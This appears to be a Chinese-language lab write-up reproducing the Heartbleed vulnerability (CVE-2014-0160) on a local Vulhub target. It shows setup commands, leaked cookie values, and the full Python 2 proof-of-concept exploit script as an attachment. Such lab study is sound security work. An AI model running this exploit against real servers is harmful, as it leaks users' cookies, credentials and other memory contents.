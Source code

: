 # 一、概述
* 心脏出血是OpenSSL库中的一个内存漏洞，攻击者利用这个漏洞可以服务到目标进程内存信息，如其他人的Cookie等敏感信息。
* 简单点说就是可以攻击者可以通过这个漏洞拿到用户的cookie或者passwd等一些敏感信息

# 二、影响版本
* Openssl 1.x

# 三、靶场环境
* 这里我使用的线下靶场`Vulhub`
```
root@wq:/home/wq/vulhub/openssl/heartbleed# ls
1.png  2.png  docker-compose.yml  README.md  README.zh-cn.md  ssltest.py  www
root@wq:/home/wq/vulhub/openssl/heartbleed# pwd
/home/wq/vulhub/openssl/heartbleed
root@wq:/home/wq/vulhub/openssl/heartbleed# docker-compose up -
root@wq:/home/wq/vulhub/openssl/heartbleed# docker ps
CONTAINER ID   IMAGE                     COMMAND                  CREATED          STATUS          PORTS                                                                      NAMES
0d8f3919ecdc   vulhub/nginx:heartbleed   "/usr/local/nginx/sb…"   23 minutes ago   Up 23 minutes   0.0.0.0:80->80/tcp, :::80->80/tcp, 0.0.0.0:443->443/tcp, :::443->443/tcp   heartbleed_nginx_1
root@wq:/home/wq/vulhub/openssl/heartbleed# 

```
* 靶场环境测试：开始访问：`https://192.168.10.134`，发现访问时正常的，说明靶场环境搭建成功
![图 5](.images/CVE-2014-0160/IMG_20220121-155536030.png)  



# 四、漏洞复现
* 当靶场创建起来的时候我有个不好的习惯，就是立马就用工具先过一遍，大家不要学我，还是需要从信息收集开始一点点做。
![图 1](.images/CVE-2014-0160/IMG_20220121-155039239.png)  
* 既然发现了这个高危了漏洞，就尝试去利用，这里我使用了官方提供的脚本，运行命令：`python exp.py 192.168.10.134 -p 443`
![图 2](.images/CVE-2014-0160/IMG_20220121-155249554.png)  
* 脚本运行后，发现了一些敏感的词汇，例如这里是：`cookies`
![图 4](.images/CVE-2014-0160/IMG_20220121-155416789.png)  
* 这时候，我在到搭建靶场时的环境去看我本身的`cookies`，发现：`Cookie：CFADMIN_LASTPAGE_ADMIN=/CFIDE/administrator/verity/index.cfm`   
![图 6](.images/CVE-2014-0160/IMG_20220121-155709431.png)  
* 对比以下2次`cookie值`
    * 第一次：`Cookie：CFADMIN_LASTPAGE_ADMIN=/CFIDE/administrator/verity/index.cfm`
    * 第二次：`Cookie: CFADMIN_LASTPAGE_ADMIN=%2FCFIDE%2Fadministrator%2Fverity%2Findex%2Ecfm`
        * 解码后：
        `CFADMIN_LASTPAGE_ADMIN=/CFIDE/administrator/verity/index.cfm`
* 这时候发现脚本执行后就能够获取`cookies`的正确值



# 五、总结
* 在遇到一些扫描报告出现ssl漏洞可以利用的时候，不能轻视，不是加了ssl就是很保险的，在信息收集与漏洞扫描的时候，这些漏洞往往会造成很怕的影响，但是这里的SSL漏洞还是比较低级的，主要是服务端使用的Openssl版本是比较低的

# 六、附件
exp.py
```python
#!/usr/bin/python

# Quick and dirty demonstration of CVE-2014-0160 by Jared Stafford (jspenguin@jspenguin.org)
# The author disclaims copyright to this source code.

import sys
import struct
import socket
import time
import select
import re
from optparse import OptionParser

options = OptionParser(usage='%prog server [options]',
                       description='Test for SSL heartbeat vulnerability (CVE-2014-0160)')
options.add_option('-p', '--port', type='int', default=443, help='TCP port to test (default: 443)')


def h2bin(x):
    return x.replace(' ', '').replace('\n', '').decode('hex')


hello = h2bin('''
16 03 02 00  dc 01 00 00 d8 03 02 53
43 5b 90 9d 9b 72 0b bc  0c bc 2b 92 a8 48 97 cf
bd 39 04 cc 16 0a 85 03  90 9f 77 04 33 d4 de 00
00 66 c0 14 c0 0a c0 22  c0 21 00 39 00 38 00 88
00 87 c0 0f c0 05 00 35  00 84 c0 12 c0 08 c0 1c
c0 1b 00 16 00 13 c0 0d  c0 03 00 0a c0 13 c0 09
c0 1f c0 1e 00 33 00 32  00 9a 00 99 00 45 00 44
c0 0e c0 04 00 2f 00 96  00 41 c0 11 c0 07 c0 0c
c0 02 00 05 00 04 00 15  00 12 00 09 00 14 00 11
00 08 00 06 00 03 00 ff  01 00 00 49 00 0b 00 04
03 00 01 02 00 0a 00 34  00 32 00 0e 00 0d 00 19
00 0b 00 0c 00 18 00 09  00 0a 00 16 00 17 00 08
00 06 00 07 00 14 00 15  00 04 00 05 00 12 00 13
00 01 00 02 00 03 00 0f  00 10 00 11 00 23 00 00
00 0f 00 01 01                                  
''')

hb = h2bin(''' 
18 03 02 00 03
01 40 00
''')


def hexdump(s):
    for b in xrange(0, len(s), 16):
        lin = [c for c in s[b: b + 16]]
        hxdat = ' '.join('%02X' % ord(c) for c in lin)
        pdat = ''.join((c if 32 <= ord(c) <= 126 else '.') for c in lin)
        print '  %04x: %-48s %s' % (b, hxdat, pdat)
    print


def recvall(s, length, timeout=5):
    endtime = time.time() + timeout
    rdata = ''
    remain = length
    while remain > 0:
        rtime = endtime - time.time()
        if rtime < 0:
            return None
        r, w, e = select.select([s], [], [], 5)
        if s in r:
            data = s.recv(remain)
            # EOF?
            if not data:
                return None
            rdata += data
            remain -= len(data)
    return rdata


def recvmsg(s):
    hdr = recvall(s, 5)
    if hdr is None:
        print 'Unexpected EOF receiving record header - server closed connection'
        return None, None, None
    typ, ver, ln = struct.unpack('>BHH', hdr)
    pay = recvall(s, ln, 10)
    if pay is None:
        print 'Unexpected EOF receiving record payload - server closed connection'
        return None, None, None
    print ' ... received message: type = %d, ver = %04x, length = %d' % (typ, ver, len(pay))
    return typ, ver, pay


def hit_hb(s):
    s.send(hb)
    while True:
        typ, ver, pay = recvmsg(s)
        if typ is None:
            print 'No heartbeat response received, server likely not vulnerable'
            return False

        if typ == 24:
            print 'Received heartbeat response:'
            hexdump(pay)
            if len(pay) > 3:
                print 'WARNING: server returned more data than it should - server is vulnerable!'
            else:
                print 'Server processed malformed heartbeat, but did not return any extra data.'
            return True

        if typ == 21:
            print 'Received alert:'
            hexdump(pay)
            print 'Server returned error, likely not vulnerable'
            return False


def main():
    opts, args = options.parse_args()
    if len(args) < 1:
        options.print_help()
        return

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    print 'Connecting...'
    sys.stdout.flush()
    s.connect((args[0], opts.port))
    print 'Sending Client Hello...'
    sys.stdout.flush()
    s.send(hello)
    print 'Waiting for Server Hello...'
    sys.stdout.flush()
    while True:
        typ, ver, pay = recvmsg(s)
        if typ == None:
            print 'Server closed connection without sending Server Hello.'
            return
        # Look for server hello done message.
        if typ == 22 and ord(pay[0]) == 0x0E:
            break

    print 'Sending heartbeat request...'
    sys.stdout.flush()
    s.send(hb)
    hit_hb(s)


if __name__ == '__main__':
    main()


"""
执行方式：
python exp.py 192.168.10.134 -p 443
注意版本：是python2
"""
```